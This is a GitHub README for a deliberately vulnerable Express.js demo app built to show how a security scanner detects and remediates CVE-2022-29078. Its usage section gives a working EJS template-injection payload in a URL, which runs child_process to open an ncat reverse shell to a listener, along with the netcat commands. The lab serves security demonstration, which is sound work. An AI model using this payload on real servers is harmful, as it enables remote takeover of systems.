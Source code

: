 With OIDC integration

# VulnExpress demo

[![Frogbot Scan Repository](https://github.com/muldos/ejs-frog-demo/actions/workflows/frogbot-scan-repository.yaml/badge.svg)](https://github.com/muldos/ejs-frog-demo/actions/workflows/frogbot-scan-repository.yaml)

## Overview
This a demo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/) new features.


   <img src="https://github.com/muldos/vuln-express/raw/master/images/home.png" alt="Home page overview" width="100%" style="margin: 20px;"/>

## Build the project and the docker image

Build the project

`npm install`

Run it locally

`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`

Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container

```ncat host.docker.internal 1337 -e /bin/bash```

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)


2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=David&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.

![Exploit overview](/images/exploited.png)

To trigger the exploit : 

open a terminal and run 

`nc -lv 1337`

Then use the link in the application to open the web shell.
